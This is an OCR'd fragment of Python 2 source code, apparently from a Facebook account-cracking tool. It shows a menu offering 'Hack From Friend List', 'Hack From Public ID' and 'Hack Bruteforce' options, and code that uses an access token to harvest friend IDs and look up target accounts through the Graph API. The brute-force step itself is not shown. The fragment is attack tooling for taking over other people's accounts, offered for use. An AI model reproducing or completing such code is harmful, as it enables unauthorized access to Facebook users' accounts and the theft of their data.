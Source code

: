 	print logo

	print "\x1b ╔═════════════════════════╗"

	print "\x1b ║1. Hack From Friend List ║"

	print "\x1b ║2. Hack From Public ID   ║"

	print "\x1b ║3. Hack Bruteforce       ║"

	print "\x1b ║4. Hack From File        ║"

	print "\x1b ║0. Back                  ║"

	print "\x1b ╚═════════════════════════╝"

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;31;40m➣➣ \033[1;97m")

	if peak =="":

		print "\033[1;39mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')

		print logo

		jalan('\033[0;39m[•] Getting IDs \033[0;39m...')

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

		z = json.loads(r.text)

		for s in z['data']:

			id.append(s['id'])

	elif peak =="2":

		os.system('clear')

		print logo

		idt = raw_input("\033[0;39m* Enter ID : ")

		try:

			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)

			op = json.loads(jok.text)

			print"\033[0;31;39m[•] Name : "+op["name"]

		except KeyError:

			print"\033[0;39m[•] ID Not Found!"

			raw_input("\n\033[0;39m[\033[0;39mBack\033[0;39m]")

